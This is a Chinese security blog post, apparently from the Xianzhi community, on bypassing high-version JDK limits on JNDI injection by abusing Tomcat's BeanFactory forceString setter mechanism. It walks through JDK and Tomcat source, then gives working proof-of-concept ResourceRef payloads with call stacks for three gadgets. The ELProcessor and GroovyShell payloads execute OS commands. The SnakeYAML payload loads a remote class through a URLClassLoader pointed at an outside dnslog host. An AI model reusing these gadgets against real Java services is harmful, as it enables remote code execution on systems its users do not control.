








# 高版本 JNDI 限制 Bypass：攻击路径挖掘与利用-先知社区

> **来源**: https://xz.aliyun.com/news/17194  
> **文章ID**: 17194

---

# 高版本 JNDI 限制 Bypass：攻击路径挖掘与利用

## 前言

JNDI 漏洞是 java 框架一个 rce 非常好用的漏洞，不过 JDK 版本的提高，对我们的利用也带来了一些限制

## 高版本绕过原理

我们如何在高版本绕过呢？

我们来调试分析分析

还是来到我们的 getObjectInstance 方法

```
public static Object
    getObjectInstance(Object refInfo, Name name, Context nameCtx,
                      Hashtable<?,?> environment)
    throws Exception
{

    ObjectFactory factory;

    // Use builder if installed
    ObjectFactoryBuilder builder = getObjectFactoryBuilder();
    if (builder != null) {
        // builder must return non-null factory
        factory = builder.createObjectFactory(refInfo, environment);
        return factory.getObjectInstance(refInfo, name, nameCtx,
            environment);
    }

    // Use reference if possible
    Reference ref = null;
    if (refInfo instanceof Reference) {
        ref = (Reference) refInfo;
    } else if (refInfo instanceof Referenceable) {
        ref = ((Referenceable)(refInfo)).getReference();
    }

    Object answer;

    if (ref != null) {
        String f = ref.getFactoryClassName();
        if (f != null) {
            // if reference identifies a factory, use exclusively

            factory = getObjectFactoryFromReference(ref, f);
            if (factory != null) {
                return factory.getObjectInstance(ref, name, nameCtx,
                                                 environment);
            }
            // No factory found, so return original refInfo.
            // Will reach this point if factory class is not in
            // class path and reference does not contain a URL for it
            return refInfo;

        } else {
            // if reference has no factory, check for addresses
            // containing URLs

            answer = processURLAddrs(ref, name, nameCtx, environment);
            if (answer != null) {
                return answer;
            }
        }
    }

    // try using any specified factories
    answer =
        createObjectFromFactories(refInfo, name, nameCtx, environment);
    return (answer != null) ? answer : refInfo;
}
```

我们主要的区别就是在这里了，我们不能再去加载远程的类了

在实例化我们的工厂类后会调用工厂类的

```
return factory.getObjectInstance(ref, name, nameCtx,
environment);
```

所以我们就需要寻找一个工厂类的 getObjectInstance 方法可以为我们利用

这里会使用到我们的关键先生 BeanFactory

仔细分析它的 getObjectInstance 方法

只看关键部分

```
public Object getObjectInstance(Object obj, Name name, Context nameCtx,
                            Hashtable<?,?> environment)
throws NamingException {

if (obj instanceof ResourceRef) {

    try {

        Reference ref = (Reference) obj;
        String beanClassName = ref.getClassName();
        Class<?> beanClass = null;
        ClassLoader tcl =
            Thread.currentThread().getContextClassLoader();
        if (tcl != null) {
            try {
                beanClass = tcl.loadClass(beanClassName);
            } catch(ClassNotFoundException e) {
            }
        } else {
            try {
                beanClass = Class.forName(beanClassName);
            } catch(ClassNotFoundException e) {
                e.printStackTrace();
            }
        }
        if (beanClass == null) {
            throw new NamingException
                ("Class not found: " + beanClassName);
        }

        BeanInfo bi = Introspector.getBeanInfo(beanClass);
        PropertyDescriptor[] pda = bi.getPropertyDescriptors();

        Object bean = beanClass.newInstance();

        /* Look for properties with explicitly configured setter */
        RefAddr ra = ref.get("forceString");
        Map<String, Method> forced = new HashMap<>();
        String value;

        if (ra != null) {
            value = (String)ra.getContent();
            Class<?> paramTypes[] = new Class[1];
            paramTypes[0] = String.class;
            String setterName;
            int index;

            /* Items are given as comma separated list */
            for (String param: value.split(",")) {
                param = param.trim();
                /* A single item can either be of the form name=method
                 * or just a property name (and we will use a standard
                 * setter) */
                index = param.indexOf('=');
                if (index >= 0) {
                    setterName = param.substring(index + 1).trim();
                    param = param.substring(0, index).trim();
                } else {
                    setterName = "set" +
                                 param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
                                 param.substring(1);
                }
                try {
                    forced.put(param,
                               beanClass.getMethod(setterName, paramTypes));
                } catch (NoSuchMethodException|SecurityException ex) {
                    throw new NamingException
                        ("Forced String setter " + setterName +
                         " not found for property " + param);
                }
            }
        }

        Enumeration<RefAddr> e = ref.getAll();

        while (e.hasMoreElements()) {

            ra = e.nextElement();
            String propName = ra.getType();

            if (propName.equals(Constants.FACTORY) ||
                propName.equals("scope") || propName.equals("auth") ||
                propName.equals("forceString") ||
                propName.equals("singleton")) {
                continue;
            }

            value = (String)ra.getContent();

            Object[] valueArray = new Object[1];

            /* Shortcut for properties with explicitly configured setter */
            Method method = forced.get(propName);
            if (method != null) {
                valueArray[0] = value;
                try {
                    method.invoke(bean, valueArray);
                } catch (IllegalAccessException|
                         IllegalArgumentException|
                         InvocationTargetException ex) {
                    throw new NamingException
                        ("Forced String setter " + method.getName() +
                         " threw exception for property " + propName);
                }
                continue;
            }

```

首先检测我们的 obj 是否为 ResourceRef，然后就是获取我们的目标类了

```
Reference ref = (Reference) obj;
String beanClassName = ref.getClassName();
Class<?> beanClass = null;

```

加载之后实例化我们的 bean

```
ClassLoader tcl = Thread.currentThread().getContextClassLoader();
if (tcl != null) {
    try {
        beanClass = tcl.loadClass(beanClassName);
    } catch(ClassNotFoundException e) {
    }
} else {
    try {
        beanClass = Class.forName(beanClassName);
    } catch(ClassNotFoundException e) {
        e.printStackTrace();
    }
}
....
Object bean = beanClass.newInstance();

```

然后来到关键的地方解析我们的 forceString

```
if (ra != null) {
    value = (String) ra.getContent();
    Class<?> paramTypes[] = new Class[1];
    paramTypes[0] = String.class;
    String setterName;
    int index;

    for (String param: value.split(",")) {
        param = param.trim();
        index = param.indexOf('=');
        if (index >= 0) {
            setterName = param.substring(index + 1).trim();
            param = param.substring(0, index).trim();
        } else {
            setterName = "set" +
                         param.substring(0, 1).toUpperCase(Locale.ENGLISH) +
                         param.substring(1);
        }
        try {
            forced.put(param, beanClass.getMethod(setterName, paramTypes));
        } catch (NoSuchMethodException | SecurityException ex) {
            throw new NamingException("Forced String setter " + setterName + " not found for property " + param);
        }
    }
}

```

简单来说就是代码会查找 setter 方法，并存入 forced 映射中，forced 记录了显式指定的 setter 方法。

然后之后遍历调用我们的 setter 方法

```
Enumeration<RefAddr> e = ref.getAll();

while (e.hasMoreElements()) {
    ra = e.nextElement();
    String propName = ra.getType();

    if (propName.equals(Constants.FACTORY) ||
        propName.equals("scope") || propName.equals("auth") ||
        propName.equals("forceString") ||
        propName.equals("singleton")) {
        continue;
    }

    value = (String) ra.getContent();
    Object[] valueArray = new Object[1];

    Method method = forced.get(propName);
    if (method != null) {
        valueArray[0] = value;
        try {
            method.invoke(bean, valueArray);
        } catch (IllegalAccessException |
                 IllegalArgumentException |
                 InvocationTargetException ex) {
            throw new NamingException("Forced String setter " + method.getName() + " threw exception for property " + propName);
        }
        continue;
    }
}
```

利用点就是在这

## ELProcessor 利用

分析了我们的原理后，发现就是调用 setter 方法，而且只能传入 String 参数，我们寻找寻找这样的 bean 类

首先就是我们的 ELProcessor 类

我们看到这个类



可以看到其中有一个 eval 方法是满足的

```
public Object eval(String expression) {
    return this.getValue(expression, Object.class);
}
```

可以执行 EL 表达式

POC

```
private static ResourceRef EL() {
    ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    ref.add(new StringRefAddr("forceString", "x=eval"));

    ref.add(new StringRefAddr("x", """.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()")"));
    return ref;
}
```

调用栈

```
eval:115, ELProcessor (javax.el)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
getObjectInstance:211, BeanFactory (org.apache.naming.factory)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:8, RMI_Cilent_ByPass (JNDI_RMI)
```



弹出计算器



## GroovyShell 使用

举一反三，可以执行 EL 表达式，那么不得不请出我们的 GroovyShell 了



有我们的 evaluate 方法,可以执行我们的 groovy 代码

POC

```
private static ResourceRef execOGNL(){
    ResourceRef ref = new ResourceRef("groovy.lang.GroovyShell", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
    ref.add(new StringRefAddr("forceString", "x=evaluate"));
    String script = String.format("'%s'.execute()", "calc");
    ref.add(new StringRefAddr("x",script));
    return ref;
}
```

调用栈

```
evaluate:600, GroovyShell (groovy.lang)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
getObjectInstance:211, BeanFactory (org.apache.naming.factory)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:8, RMI_Cilent_ByPass (JNDI_RMI)
```



## snakeyaml

这个是最妙的，需要配合我们的 snakeyaml 的反序列化漏洞一起利用

看到这个类

利用它的 load 方法  


```
public <T> T load(String yaml) {
    return (T) loadFromReader(new StreamReader(yaml), Object.class);
}
```

POC

```
private static ResourceRef execBySnakeYaml() {

    ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
    String yaml="!!javax.script.ScriptEngineManager [
" +
            "  !!java.net.URLClassLoader [[
" +
            "    !!java.net.URL ["http://6f1f2d5c.log.dnslog.sbs."]
" +
            "  ]]
" +
            "]";

    ref.add(new StringRefAddr("forceString", "a=load"));
    ref.add(new StringRefAddr("a", yaml));
    return ref;
    //return new ReferenceWrapper((Reference) ref);
}
```

应该是需要 jar 包的，但是这个电脑没有，懒得制作了，dns 验证一下就 ok 了

```
load:416, Yaml (org.yaml.snakeyaml)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
getObjectInstance:211, BeanFactory (org.apache.naming.factory)
getObjectInstance:321, NamingManager (javax.naming.spi)
decodeObject:464, RegistryContext (com.sun.jndi.rmi.registry)
lookup:124, RegistryContext (com.sun.jndi.rmi.registry)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:417, InitialContext (javax.naming)
main:8, RMI_Cilent_ByPass (JNDI_RMI)
```




